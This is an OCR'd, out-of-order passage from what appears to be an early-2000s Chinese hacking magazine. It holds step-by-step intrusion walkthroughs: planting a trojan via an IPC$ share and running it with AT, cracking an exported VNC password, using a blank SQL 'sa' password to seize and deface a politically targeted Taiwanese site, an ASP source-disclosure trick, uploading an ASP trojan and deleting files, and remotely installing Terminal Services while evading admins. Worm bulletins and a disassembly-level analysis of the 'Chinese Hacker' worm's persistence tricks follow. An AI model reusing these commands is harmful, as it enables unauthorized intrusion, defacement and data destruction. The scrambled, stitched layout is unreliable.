现在我再来做个总结,目前我遇到的困难是对方把 c$,d$,admin$ 都关了,可我已有了个 admin 账号，难道真的像其他安全策略文章所说的那样，只要关掉admin$,c$,d$等等这些系统默认共享，入侵者即使有个admin账号也进不来了吗？我向来不轻信这些安全建议的文章。在反复思考当中，我突然灵感一现，又想回到共享资源上着手。如果把一个木马拷贝到一个共享目录里，然后远程再触发它运行就可以了。关键在于怎么触发它，下套肯定是不聪明的表现。我想起了at命令，这个命令大家都用习惯了。远程启动admin$或admin$\system32下面的木马,现在这台服务器的admin$关了，所以让我尝试一下放在其他path启动。我又看看共享资源列表，决定放在inetpub\scripts下，因为这个目录默认是c:\inetpub\scripts之下（没有装多系统的情况下）。

```
[HKEY_CURRENT_USER\Software\ORL\WinVNC3]
"SocketConnect"=dword:00000001
"AutoPortSelect"=dword:00000001
"InputsEnabled"=dword:00000001
"LocalInputsDisabled"=dword:00000000
"IdleTimeout"=dword:00000000
"QuerySetting"=dword:00000002
"QueryTimeout"=dword:0000000a
"Password"=hex: cd,7c,b9,bd,c7,e9,0c,c9 (关键啊，记下这个)
"PollUnderCursor"=dword:00000000
"PollForeground"=dword:00000001
"PollFullScreen"=dword:00000000
"OnlyPollConsole"=dword:00000001
"OnlyPollOnEvent"=dword:00000000
```

好了，这个有意思的入侵策略制定好后，剩下的就是做木马、上传和启动了。木马我是用janker的winshell5.0直接生成的，所以不多说了，我给木马起名为server.exe。接下来就是上传，copy d:\server.exe g:\scripts (G:虚拟的是服务器的inetpub，所以直接输入scripts)

OK，这个不难看懂。下面再进行最关键的一步:

```
Net time \x.x.x.x
\x.x.x.x 的当前时间是 2002/6/25 下午 08:49
命令成功完成。
At \x.x.x.x 20:51 c:\inetpub\scripts\server.exe
(这句是不是和以往的用法不太一样)
新加了一项作业，其作业 ID = 1
```

找到了我要的键值了，接下来回到本地机破解这个键值的明文密码吧（翻了老半天，终于找到个程序是破VNC的，不是穷举密码哦),把刚才的8个字段一一输入，注意x4的参数W是大写的:

```
D:\>x4 -W
cd
7c
b9
bd
c7
e9
0c
c9
Entered HEX String: cd 7c b9 bd c7 e9 0c c9
VNC Password: 58218411 (一秒钟都不要就算出来了! )
```

好了，这样就使服务器的计划任务在08:51自动启动指定的共享目录下的木马server.exe，时间已经差不多了，再看看，net time \x.x.x.x。
x.x.x.x 的当前时间是 2002/6/25 下午 09:02
好，Telnet上去，果然成功！现在终于拿到个高权限的Shell了，不过是命令行状态的，怎么说软件也进入窗口时代了，要改改了。这时我就想到了服务器上运行着的5900,现在取它的远程控制密码，过一会用它来远程控制服务器。好的，看我怎么取得它的密码。Telnet上刚才的木马，然后运行这么一句导出注册表中的VNC密码关键值:

```
regedit /e xhacker.reg HKEY_CURRENT_USER\Software\ORL\WinVNC3
OK,然后 type xhacker.reg
```

密码是标准的8位纯数字58218411，有什么含义呢？下面就可以登录他的桌面了，如图2:

看到了桌面也没觉得有什么成就感，有价值的是又一次开拓了我的思维，让我意识到有些习惯性思维的确是一种障碍，比如文中提到的至关重要的一个突破口AT命令。以前AT运行admin$下的程序惯了，一时想不到它的其他用法,现在还是有其他利用方式的，比如这次就是上传server.exe木马至一个可写目录里，然后远程用AT激活运行它。后来我又进行了一些实验，发现在这种情况下，即使网管取消所有共享资源，我也可以轻松进入桌面，系统只要开个ipc$就可以了。当然，这不是说上面的入侵方式没有价值了，其实上面的方式通用性较好，所以，我建议大家要真的想关admin$,c$,d$…还不如只关闭ipc$。

## 3次入侵台湾某公司看到了什么

由于现在许多管理员安全意识的欠缺，导致系统的安全受到威胁。本文没有什么高深的技术，只是想提醒各位管理员，要提高安全意识。

文/flyingfox

某日在网上闲逛，无意中到了台湾某公司的主页，发现其内容包含有明显的台独内容，气愤不过，决定看看它们的安全状况，进行一次入侵。网址为：www.****.com.tw。用NMap扫描器对其进行扫描，发现开了23、80、136、137、1433等端口，对方操作系统为Microsoft Windows NT4.0。从端口上看，一定是开了SQL服务，所以决定先从这里入手。

### 第一次入侵

### 具体方法：

SQL7.0以下版本在默认安装的情况下，SA(SYSTEM ADMINISTRATOR)口令为空，下载一个sunx所写的SQLExec(用于SQL客户端连接)，运行SQLExec.exe，填入IP地址填入：111.111.111.111，以空口令进行连接。经过5秒左右，提示连接成功！所得到的权限为SYSTEM。

- 1. 查看其用户列表，输入如下命令：
net user
接着会显示：
\**** 的用户账户
Administrator Guest IUSR_****
IWAM_**** SQLAgentCmdExec
命令运行完毕，但发生一个或多个错误。

- 2. 更改其 Administrator 用户的密码（为了通过IPC$连接）：
net user administrator 54hack.com
命令成功完成。
解释：将用户名Administrator的密码更改为：54hack.com

- 3. 在本机上运行CMD.exe(命令提示符)，输入如下命令：
c:\>net use \111.111.111.111\ipc$ 54hack.com /user:administrator
命令成功完成

解释：与111.111.111.111建立远程管道连接

- 4. 接下来在本地命令提示符下输入如下命令：
c:\>net use v: \111.111.111.111\c$
命令成功完成。
解释：将111.111.111.111映射到本地硬盘，盘符为V。

- 5. 在我的电脑中找到V盘（即对方的C盘），打开，在Inetpub\wwwroot\（默认存放主页路径），更改其index.asp。

- 6. 断开与V盘的连接

- 7. 在命令提示符下输入如下命令：
net use \111.111.111.111 /delete
命令成功完成。
解释：断开于111.111.111.111的IPC$连接

- 8. 攻击完成。

由于在被更改的主页上留下自己的信箱，事后一天，该网站恢复，并收到对方管理员有分裂祖国统一内容的电子邮件，接下来引发了该站点的再次被攻击。

### 第二次入侵

### 具体方法：

检测发现对方没有SQL服务，Administrator口令也改变了，想必是对方重装了系统。但是发现对方开启FTP服务。不过总是登录不成功，估计是由于对方管理员限制了FTP服务的IP范围，放弃！看到该主页为ASP格式，试试在ASP中找找他的漏洞吧：

- 1. 向服务器提交如下请求：
http://www.****.com.tw/index.asp%81
没想到显示出了对方的ASP源程序，而且还看到了管理用户的管理员明文密码。此管理员，还具有在页面上上传用户资料的权限。

- 2. 以其管理员身份登录，并向该主页目录上传一个 ASP 木马。上传完成后，使用 ASP 木马，对方的所有目录显示眼底，更改其主页，链接上国歌，删除其他文件。

# 案例分析
# CASE ANALYSIS
## 栏目编辑 > Heihoo > heihoo@hacker.com.cn

# 虚拟主机

## 文 / blue

# 入侵分析


如果你的服务器中存放了大量的网站资源，你最应该注意什么？不可置疑应该是安全问题。可是有些网管没有深刻认识到这一点，被黑客钻了空子……

入侵对一般人来说好像很神秘，很神圣，但对于掌握了一点点技巧的计算机爱好者来说，其实算不了什么。我虽然这方面的技术不是很高，但我很热衷于这项活动，入侵的经历也可以百次计算，所以自认为在入侵的过程中还是有一定的经验的。不过，前几天的一次入侵的复杂程度令没有任何心理准备的我有些手足无措，倒不是复杂在技术上，而是成功入侵之后修改主页时，却找不到要改的主页，郁闷。整整一下午时间耗在这上面，还好最后找到了好方法，成功的完成任务，达到了自己的目的。

我的入侵似乎在一定程度上来看是很有原则的。我入侵的大多数主机都是国内的，很多朋友提醒我不要进国内的主机，其原因我也知道，无非是爱国心理，不要破坏自己国家网络世界的安定团结；有危险，入侵国内的站点搞不好会惹祸上身。但我还是一如既往地入侵国内的主机，我也有自己的理由：我的看法是国内的站点有漏洞，被我破了，总比被老外破了强，大家都是中国人，省得到外面丢人；惹祸上身我也怕，所以我从不对我所入侵的主机做什么，只是在主页源文件的<TITLE></TITLE>中间加点东西，证明自己来过了，多数时候我截了图就会把它改回来。当然还会给网管发封 E-mail 提示一下，告诉哪儿有问题。

就像上面我说的一样，前几天我在网上浏览，看到一个挺有意思的站点，好像是介绍某城市的一个日文网站。心想：好吧！今天拿你练练。马上进入 cmd，Ping 了一下这个站点的域名，好得到它的 IP。看看返回值，速度不慢，于是就用我最钟爱的扫描器 X-scan 扫扫看。对于我的 P II 400 和 56K 小猫来说，扫描其实是一个很痛苦的过程，我从不敢奢望能像别人的宽带、P 4 那样整个网段地扫描。在漫长的扫描过程中，我习惯性地在 IE 的地址栏里键入了刚刚得到的 IP。出乎意料的事情发生了：当我回车以后，显示的页面竟与刚才的不同。当我检查了我刚才的操作过程并没有错误之后，我便陷入了不解状态。还好，马上我就从不解状态中清醒过来，我意识到这有可能是一台虚拟主机。

所谓虚拟主机，简单地说就是一台主机一个 IP，而存在多个域名。浏览的过程是：你输入域名，DNS 解析成 IP，访问请求传到这台主机，再由这台主机分析出你要访问的是哪个域名，进入该域名的主页，返回主页信息。当然，如果直接输入 IP，返回的就只有一个，即这台主机的默认域名的主页。其实，现在这种服务几乎遍地都是，但我还是第一次遇到这种情况，有意思。

不知不觉，扫描的进程已经结束了。看看扫描结果，没什么新意，SQL-Server 弱口令：sa/<null>。入侵的过程也是异常简单，用 sqlexec 连通对方的数据库，添加用户，再把该用户添加到管理员组。还好，这台主机没有打开 3389 端口，不然这次入侵将会变得简单无比。但正是因为没有开启终端服务，才带来了下面的麻烦……

主机共享了所有的硬盘，而且是默认共享，可见管理员的水平。我习惯用“开始”菜单里的运行，打开对方的共享硬盘。于是我打开了对方的 C 盘，进入 IIS 的默认目录看看有什么东西，微软自带的“建设中”的页面。主页不在这里，这是正常的，虚拟主机的页面很多，应该放在一个专用的盘符或文件夹中。再看看它的 D 盘，好像有点意思，各个文件夹的名字与域名有点联系。打开看看，没错，里面都是网页的文件。但怎么找主页呢？懒人有懒人的方法，在网络邻居里添加这台主机的 D 盘，再用搜索功能查找，这是我一直以来都引以为荣的懒人秘籍，只要等上一段时间，主页自然会出现在我的眼中。过了一会儿，我看了一下搜索的结果，真是不看不知道，一看吓一跳。整个 D 盘一共有 57 个 index.htm，35 个 index.asp，我不敢再往下找 index.html、default.htm……。天哪，就凭我的网速，这些文件光看一遍也得几个小时了。怎么办？这个我百试不爽的懒人秘籍，在虚拟主机面前好像功力尽失，不管用了。于是我又一次陷入了不解状态，郁闷着……

在 DOS 下，我记得有一个可以找到主页路径的命令，但不知道对于虚拟主机是不是管用？根据我的判断，它应该只显示默认的主页路径，有点儿用，但也只是杯水车薪，我干脆连试都没试。我在想一个更好的方法可以找到所有的路径，但这并不是很容易，更何况是在这种很烦躁的情况下。不知不觉的，2 个多小时过去了，我什么成绩都还没有，这不符合我的风格。

这时，我开始怀念从前利用终端服务的日子了，如果对方安装了终端服务，一切就会变得非常简单的。3389 登陆，开始，程序，管理工具，Internet 服务管理器，查看 Web 站点的属性，主目录。一切问题迎刃而解，但现在呢？等等，有东西闪过，闪闪发光，是什么？是灵感。能抓得住吗？我奋力起身，飞一般地冲向它，将它牢牢地攥在手里。灵感就是一闪而过的东西，错过了，就别想再找回来。

刚刚我想到了 Internet 服务管理器，Internet 服务管理器还有一项功能就是打开远程主机的 Internet 服务。试试吧，理论上成立。打开 Internet 服务管理器，操作，连接，输入 \IP。如图 1 所示。几秒钟，对方主机的各个域名所相应的虚拟主机 Internet 服务属性结构就展现在我的面前。此时我的心情，真是没得说，爽！没想到痛苦了半天，结果竟是如此简单。下一步，按照我的计划，改主页，截图。有了主页的路径，这些工作就显得非常简单，而对于我来说也是相当熟悉的。

这次入侵就这么结束了。我觉得，技术上的东西不多，但经验和技巧不少，至少我是这么认为的，因为我以前没有见过，也没用过，教程和

# CASE ANALYSIS

>栏目编辑>Heihoo>heihoo@hacker.com.cn



论坛的贴子也没提过，这是第一次。写出这些来，希望能对大家有些帮助。

还有几点也是要注意的：虚拟主机的安全性一般都是比较高的，我这次可以算是“瞎猫碰上死耗子”。可以想像一下，如果让这样业余的管理员来管理一台有很多虚拟站点的虚拟主机，时不时地遭到黑客攻击，还会有谁愿意把自己的主页放的这样的主机上吗？如果这些空间是收费的，那就更不敢想了。

以上的过程，我都是在开着3389端口的肉鸡上进行的，一方面出于速度考虑，一方面出于安全考虑。更重要的是，这样的虚拟主机不像一般的小站点，不管它的安全性有多差，它始终是一个担负着很多虚拟站点的主机，一旦有闪失，对客户没法交待。很可能因为面子问题，把入侵者告上法庭。如果你顺手干了些不该干的事情，判个3年、5年，你说冤不冤？

这次入侵表面上似乎很成功，但我现在回想起来，好像还是兜了一个圈子。我利用肉鸡打开了对方的Internet服务管理器。其实可以直接把这台虚拟主机做成终端服务的肉鸡（要看操作系统的版本，有的没有终端服务功能。这台机器是Windows 2000 Server）。具体方法如下：

开启对方23端口，Telnet IP，输入用户名/密码。检查终端组件是否安装：`c:\>query user` 这个工具需要安装终端服务。如果返回：

```
USERNAME SESSIONNAME ID STATE
IDLE TIME LOGON TIME
>wl console 0 运行中
2002-1-12 22:5
```

类似这样的信息，可能组件就已安装。

多数情况没有安装，我们就把它装上。

```
C:\> dir c:\sysoc.inf /s  检查INF文件的位置，返回 c:\WINNT\inf
2000-01-10 20:00 3,770 sysoc.inf
1个文件 3,770 字节
```

```
C:\> dir c:\sysocmgr.* /s  检查组件安装程序，返回 c:\WINNT\system32
2000-01-10 20:00 42,768 sysocmgr.exe
1个文件 42,768 字节
```

```
C:\> echo [Components] > c:\blue  建立无人参与的安装参数
C:\> type c:\blue
[Components]
TSEnable = on
```

```
安装组件
C:\> sysocmgr /i c:\winnt\inf\sysoc.inf /u: c:\blue /q  这一条就是真正的命令。
```

以上这条命令没有加/R参数，主机在安装完后自动重启。如果加了/R参数，主机就不会重启。

如果一切正常的话，几分钟后，对方主机将会离线，当它重新回来时，3389终端服务就已经开启，就可以连上去了。

但这也是有很多问题的：

- (1) 安装过程中，如果出现错误，我们的机器上面是没有提示的。所以，一遍不行，就两遍。
- (2) 安装完毕之后，即使不重启远程机器，远程机器上的很多服务还是要重新启动，这很容易引起管理员的注意。一旦被反跟踪，麻烦就大了。

以上就是我的一次入侵和入侵后的一点想法。说到安全问题，也没什么好说的，常打补丁，常更新，修改默认路径……这些也没什么复杂的。所以我要对广大不太负责的网管说，网络安全是建立在勤奋基础上的，你们多做一点，我们就会少做点，甚至没的可做。还是那句老话：没有狼，羊永远不会进化；足够傻的羊会使狼也跟着退化的。

## 黑防病毒公告栏

## 掀开“垃圾桶”病毒的盖头来

病毒名称：WORM.LENTIN.G

该病毒有四大特性：

- 1. 病毒进入被感染机器后，会把本身用随机名形式放入回收站。同时属性设为隐藏。
- 2. 该病毒可以杀掉大多数国外杀毒软件的主程序及进程，如“AVP......”等。
- 3. 感染所有 Windows 平台，通过地址簿发送邮件。

尤其感染 Win 98 感染后，系统会变得奇慢无比，同时在 %/WINDOWS/ 下生成 MSMON.EXE 文件及修改 WIN.INI 文件。

- 4. 该病毒会破坏系统注册表，导致系统无法工作，使任何 *.EXE 文件执行时，病毒体都会自动加载起来。

病毒自己注册到系统注册表中的 `HKCR\EXEFILE\SHELL\OPEN\COMMAND C:\RECYCLED\MSMDM.EXE %1 %*` 此后显示几行 "UR MY VALENTINE.."，并随机改变工作桌面窗口的大小。

该病毒有时会出现出错信息：

```
CONFIG
NO CONFIGURATION IS AVAILABILE
NOW
ENJOY !!!
```

传播的邮件标题含有下边中的一行或是带有“FW: ”（也可以是不带）的几个组合：

- SEARCHING FOR TRUE LOVE
- YOU CARE UR FRIEND
- WHO IS UR BEST FRIEND
- MAKE UR FRIEND HAPPY
- TRUE LOVE
- DONT WAIT FOR LONG TIME
- ......

病毒发作：

在 Windows 目录中建立随机文件名.TXT 的文件，并写入以下文字：

```
INDIAN SNAKES PRESENTS YAHA.E
INDIAN HACKERS,VXERS COME & WORK
WITH US & F*CK THE GFORCE-PAK SH*TES
BY
SNAKEEYES,COBRA
```

## 世界杯病毒 I-Worm.Brit.G 病毒资料

病毒名称：I-Worm.Brit.G

病毒别名：World Cup, VBS/Chick-F, VBS_CHICK.F, VBS/Chick.f@M, VBS.Chick.F@m

感染系统：Windows 95, Windows 98, Windows NT, Windows 2000, Windows XP, Windows Me

I-Worm.Brit.G 病毒可以通过邮件和 mIRC 传播。病毒通过邮件传播时，附件是一个.chm 文件，并且只向地址簿中的第一个邮件地址发送带毒邮件。带毒邮件有如下特征：

主题：RE: Korea Japan Results

邮件正文：

```
Take a look at these results ...
Regards,
<User Name>
附件：koreajapan.chm
```

当 I-Worm.Brit.G 被运行后，病毒显示一个窗口：接着，可能会有一个询问是否运行 ActiveX 的 IE 警告信息（这取决于 IE 的设置），如果点击“确定”，蠕虫被运行。

病毒将自身拷贝到 C:\windows 下，取名为 koreajapan.chm。

接着，病毒利用 Microsoft Outlook 向地址簿中的第一个邮件地址发送上述带毒邮件。

病毒还会创建一个新的 mIRC Script.ini 文件，以向其他使用 mIRC 的用户传播自己。

病毒修改注册表，在注册表中：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion 下添加：chm 1 来作为病毒已经感染当前机器的标志。
```

(下转 79 页)

# 揭开“中国黑客”的神秘面纱

## 近距离看“中国黑客”全球首创的三线程技术

文/唐洪亮

6月份新鲜登场的“中国黑客”病毒，经过金山反病毒应急处理中心的技术人员深入分析后，发现了一个病毒编写史上的新亮点——“中国黑客”使用了全球首创的“三线程”结构，整个病毒采用汇编语言开发，用了非常多的反跟踪技巧，若真为国人开发，无疑体现了国内的病毒编写水平已经和国际接轨，甚至超越了国外同类水平!

我们对付很多病毒的修改注册表这样一个手段对“中国黑客”是无效的。应该说，病毒对注册表进行监视是以前从来没有过的，杀毒软件对注册表的实时保护现在几乎还是一个空白。这一次，在注册表实时保护方面，大多数杀毒软件又落在了病毒的后面。

许多计算机爱好者可能都会问，这样一个国际领先的三线程技术到底是怎么回事呢?我们请到了金山公司毒霸事业部技术总监陈飞舟，让他为我们详细介绍一下三线程技术。

因此，病毒编写中三线程技术的应用在很大程度上提高了病毒对抗杀毒软件的能力，使包括很多国外顶尖反病毒软件在内的杀毒软件被打了一个措手不及。目前，金山毒霸在升级后已经能够成功彻底清除“中国黑客”了。

“中国黑客”采用的三线程架构可导致传统杀毒软件的内存杀毒技术失效，充分显示了病毒作者对系统深入了解的程度。

另外，在Windows95/98/Me系统下，“中国黑客”病毒学习了臭名昭著的CIH病毒，使用了VXD(虚拟设备驱动)技术进入到系统核心层(ring 0)取得系统的最高权限，代表病毒这时已经可以为所欲为，一旦加上破坏代码，毁坏BIOS、毁坏硬盘数据都可以轻易做到。可以想像一下：一个病毒具有求职信病毒的强传播力同时又具有CIH的强破坏力，它的出现将对网络及计算机安全构成多么巨大的威胁。

我先向读者朋友说明一下内存杀毒的过程：一般病毒只有一个线程，病毒被加载到机器内存后会不断地往硬盘写入病毒文件或感染其他执行文件，因此，在清除机器中硬盘等介质上的病毒前必须先将内存中的病毒清除，消灭传播源。

而“中国黑客”病毒具有三个线程，分为主病毒体和两个监视器，其中一个监视器监视主病毒体并保证主病毒体的运行，一旦主病毒体被清除，这个监视器就将主病毒体再次调入。而目前杀毒软件的内存杀毒功能只能一次性的对内存进行扫描，没有做到实时监控，因此，“中国黑客”具有反内存杀毒的智能化功能。

在传播方式上，“中国黑客”寻找用户邮件地址簿来向外发病毒邮件传播与局域网传播。这一点与求职信病毒非常相似，可快速传播。金山公司仅在6月6号就收到“中国黑客”病毒主动发来的带毒信件近2000封。

为了保证病毒在下次系统启动时运行，另外一个监视器会不断监视注册表中病毒随系统加载的项目，一旦被人工或反病毒软件修改，立即重新写入病毒项，保证自己的控制权。这就是说，以前

此外“中国黑客”病毒还预留了接口，只要作者愿意，很多破坏功能与传播方式很快就可以加上。此外，病毒体内的感染开关没有打开，所以目前此病毒还不能感染文件，但实际上病毒体内的感染代码，已经比较完整，一旦加上几行代码就可以实现感染Windows下的.EXE、.DLL、.SCR等PE文件。

# 瑞星对“中国黑客”特性的分析与对策

中国黑客利用QQ发送消息

6月6日下午2时，一种新的智能型病毒—中国黑客病毒被瑞星反病毒处理中心首先发现，瑞星公司反病毒专家介绍，“中国黑客”病毒除了普通的病毒特征以外，又增加了许多智能型因素，据瑞星专家预测，此病毒可能是继“红色代码”病毒以后又一传染力极强的恶性病毒。此病毒有以下新特性：

- 1. 跨系统性

此病毒做了两套不同的感染机制，可以分别在Win9x 系列和 WinNT 系列的操作系统中正确运行。

- 2. 智能性

在win9x 系列操作系统中，此病毒可以获得系统的最高权限，并采用双线程机制，用一个系统级别更高的母线程监视跟踪另一个子线程的运行，当母线程发现子线程被杀掉时，它会马上再产生出一个子线程，继续在内存中活动，造成大部分杀毒软件失效。

- 3. 隐蔽性

在WinNT 系列操作系统中，由于任何病毒都无法进入核心态，此病毒则将自己的病毒线程注入到浏览器（Explorer.exe）的内存进程空间中，这样，一般用户因无法看到病毒进程，也就无法发现此病毒。

- 4. 自动性

此病毒生成的 EML 文件利用了 Outlook 的漏洞，在用户预览邮件的情况下即可发现。

- 5. 强传播性

可以利用局域网上的共享文件夹进行传染，其传播特点类似“尼姆达”病毒，因此，对于某些不具备全网同时杀毒功能的杀毒软件，这将意味着不拔掉网线，在网络环境下，根本无法彻底清除该病毒。另外，此病毒还可以通过寻找用户邮件地址簿来向外乱发邮件，从Internet 网上进行广泛传播。由于该病毒从局域网、因特网两种方式进行传播与传染，从而会大量占用网络资源、严重阻塞网络。

该病毒是一个蠕虫病毒，不会感染可执行文件。

病毒在被激活的过程中会把病毒体自身复制到Windows 的系统目录中：在 Windows 9x 系统中复制自身到 windows\system\runonce.exe; 在Windows 2000 和 Windows NT 系统中复制自身到 winnt\system32\runonce.exe，然后运行该程序，并且在注册表中加入自启动项，使病毒体每次开机时都被激活。

在 Windows 9x 系统上，该病毒利用了 CIH 病毒相同的手法切换到零环，使自己进到系统级，然后复制 78 个字节到 kernel32.dll 的地址空间中（在 Windows 98 与 Windows 95 的系统中的偏移地址是 bff70400 处）。

接着通过 CreateKernelThread 函数建立一个内核线程。该线程的入口地址就是bff70400。这个内核线程调用了 WaitForSingleObject 函数使自身进入等待状态，来等待父进程的结束信号。如果父进程被结束，则该内核线程立即被唤醒，内核线程马上调用 WinExec 函数，来重新启动病毒进程。

这样，在杀毒软件杀掉内存中的病毒进程后，病毒马上又被激活，结果造成杀不掉内存中的病毒。

该病毒在Windows 2000操作系统上由Explorer 中注入线程。在 Explorer 中的线程用来保护病毒进程，如果病毒进程结束，则 Explorer 中的病毒线程重新启动病毒进程。

该病毒通过以上方法来起到在内存中保护病毒进程的作用，具有极强的局域网传染功能。

该病毒通过搜索网上邻居中的可写文件夹，然后在每个可写文件夹中都生成一个以计算机名命名的 EML 文件，并且该 EML 文件是有自启动漏洞的 EML 文件。

发作现象：

在用户系统中若装有 OICQ 聊天软件，则病毒进程每 5 个小时发作一次。发作时启动一个发作线程。这个发作线程会搜索名字为“发送消息”的窗口，若正在用 OICQ 发送消息时，病毒会先在发送窗口中输入 12 个回车换行符，然后再将以下几句话放到发送消息的窗口中：

世界需要和平!

# “中国黑客”病毒详尽分析

文/无花果

“中国黑客”病毒目前版本乃是不完全的调试版，与求职信一样，该病毒暂时只能利用IE FRAME 漏洞进行传染，病毒会在共享目录与局域网可写空间里生成大量的EML 文件，以加速传染速度与扩大传染范围。“中国黑客”利用了比较深入的系统级编程，独创“三线程”监视结构，在Windows Nt/XP/2K 系统，利用大家熟悉的远程线程来做到进程守护，而在9x 系统下，病毒奇迹般地注射了一个“远程”线程，而且运行级别相当高，同样巧妙地做到了进程守护。病毒也守护注册表，避免自己被从注册表删除，这也是病毒史上第一个保护病毒注册表键值不被修改的病毒。“中国黑客”能通过QQ 消息发送窗口添加政治言论，让人不胜其烦，而且病毒体内隐藏了大量的未打开的接口，包括传染可执行的PE 文件(注：PE 文件是Window32 位可执行文件的一种常用格式)接口、变形代码接口。病毒大量使用了反跟踪与静态分析等手段阻止人为分析，但是笔者利用反汇编详细分析了“中国黑客”病毒代码，剖析出了整个病毒的运行原理，现公布给各位病毒安全界的爱好者，希望能对中国的信息安全做出点贡献。

一、病毒的引导部分

病毒首先设置一个SEH(程序结构化异常处理)在Win9x 与 Win2k/XP/NT 中通用的意外忽略函数。如果前期病毒初始化失败或者遇到不可控错误，则病毒会去执行事先设置好了的返回地址，这里恰恰是被感染文件的入口地址。然后病毒在内存中搜索KERNEL32.DLL 模块句柄，PeLoader 加载程序会在堆栈中留下返回地址，这个地址存在于KERNEL32.DLL 模块中，病毒通过这个地址向前搜索KERNEL32.DLL 的PE 文件头。找到PE 头以后，病毒就在该PE 文件中的引出函数列表按函数名字搜索GetProcAddress 函数的地址，通过颇为复杂的地址转换最终得到了该函数的地址。现在，病毒有了KERNEL32的模块句柄与GetProcAddress 函数的地址，病毒开始定位自己所需要的其他模块与函数的地址，并把这些函数地址存放在堆栈中备用。病毒共引用了55 个Windows API，它们分别是来自KERNEL32、USER32、ADVAPI32、MPR、WSOCK32。引用 ADVAPI32 是为操作注册表、锁定注册表；MPR 提供了局域网函数，病毒用以枚举网络共享资源；WSOCK32 病毒用来建立 TCP 连接，病毒构建自己的 SMTP 引擎，发带毒邮件。这段定位 Windows API 的程序片段适用与 Win9x/me/nt/2k/xp 系统。由此可见，病毒作者对 Windows PE 文件格式了如指掌，对不同 Windows 系统加载程序 PeLoader 也有研究。接下来病毒创建一个名字为“ChineseHacker”的互斥体 (Mutex)，紧接着使用 GetLastError()得到互斥体的状态，如果互斥体已经存在，则病毒会执行一条 INT 3 (机器码 0cch) 断点中断，引发程序异常。正如前面我提到的，病毒此时就利用 SEH 去执行原来设置好了的程序终止自己第二份 COPY 运行。如果此时你用低级别的调试器跟踪病毒运行，你便看不到病毒真正的用意。调试器可能忽略 INT 3 而去执行接下来的指令，而病毒在这个位置刚好放置了一条使病毒产生乱码的指令代码 JMP(机器码 0e9h)。病毒曾多次使用这种反动态跟踪与对抗静态反汇编的手法，给反病毒分析员带来了诸多麻烦。如果病毒发现自己未曾在系统中运行过，则病毒会试图通过 WinExec()再次启动自身一次。这个功能是为病毒传染 PE 文件预留接口的一部分，它的作用是让病毒宿主程序能有机会得到执行。

- 去他妈的法轮功!
- 反对邪教,崇尚科学!
- 打倒本拉登!
- 向英雄王伟致意!
- 反对霸权主义!
- 社会主义好!

当用户点击发送按钮时，这些内容就会被发送出去。输入的12 个回车换行符作用是使病毒加入的文字信息超出窗口的可见区域。用来防止用户看到被加入文字内容。

由于病毒的特殊机理，建议用户在杀毒时打开实时监控与内存监控。

“瑞星内存监控”是查杀“中国黑客”的利器

《瑞星杀毒软件2002 增强版》中提供了最新的“内存监控系统”，这是对付“红色代码”、“中国黑客”等病毒的利器，传统的杀毒软件监控系统只停留在“文件级监控”（也称之为实时监控）的水平上，对驻留在内存中的病毒没有办法，只能靠重新启动计算机并在DOS 系统下查杀才能见效。

“瑞星内存监控系统”将文件级监控提升到了内存监控的水平，“红色代码”类的纯内存型病毒可以随时监测并杀灭，完全不必重新启动计算机在DOS 系统下查杀。

此次出现的“中国黑客”病毒由于在内存中运行级别较高，而且采用双线程机制，利用一个线程监视另一个线程的运行，瑞星内存监控系统虽然可以杀灭其中的一个线程，但病毒的另一个线程仍旧会再生成新的线程，导致瑞星内存监控的失效。

瑞星工程师在仔细分析该病毒的特征后，对瑞星内存监控系统进行了相应的调整，并制作了相应的升级程序，彻底防范并遏制此类病毒的危害。

另：瑞星最新升级程序(14.12 版)将在稍后紧急提供，敬请广大用户关注，尽快下载升级。

二、病毒创建注册表守护线程

